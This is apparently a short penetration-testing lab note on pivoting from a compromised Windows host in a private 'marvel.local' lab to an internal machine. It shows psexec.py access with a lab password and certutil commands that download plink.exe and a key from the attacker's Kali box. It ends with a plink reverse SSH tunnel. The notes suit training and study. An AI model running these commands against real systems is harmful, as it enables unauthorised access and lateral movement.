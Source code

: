 Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```bash - kali
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```command prompt - target
cd C:\Users\fcastle\Documents
```

```command prompt - windows
certutil -urlcache -split -f http://192.168.111.133/plink.exe
```

Create ssh keygen:

[[2a._SSH Tun(Linux)#Reverse Connections]]

Install putty-tools and convert they reverse file.

```bash - kali
sudo apt install putty-tools
```

```bash - kali
puttygen reverse -o reverse_key.ppk
```

Transfer reverse_key to vic:

```command prompt - windows
certutil -urlcache -split -f http://192.168.111.133/reverse_key.ppk
```

```command prompt - windows
cmd.exe /c echo y | .\plink.exe -R 8000:10.10.10.128:80 kali@192.168.111.133 -i reverse_key.ppk -N
```

![[Pasted image 20220116114712.png]]

![[Pasted image 20220116114732.png]]

